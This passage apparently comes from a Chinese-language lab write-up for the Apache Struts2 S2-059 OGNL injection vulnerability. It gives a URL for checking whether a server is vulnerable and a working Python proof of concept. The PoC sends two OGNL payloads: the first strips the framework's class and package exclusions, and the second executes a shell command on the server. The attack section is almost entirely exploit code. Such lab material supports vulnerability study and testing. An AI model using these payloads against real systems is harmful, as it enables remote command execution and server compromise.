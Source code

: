 验证漏洞是否存在

```
http://your-ip:8080/?id=%25{9*9}
```

![s2-059-2](images/s2-059-2.png)

任意命令执行 PoC

```python
import requests

url = "http://127.0.0.1:8080"
data1 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"
}
data2 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /tmp/success'))}"
}
res1 = requests.post(url, data=data1)
# print(res1.text)
res2 = requests.post(url, data=data2)
# print(res2.text)
```
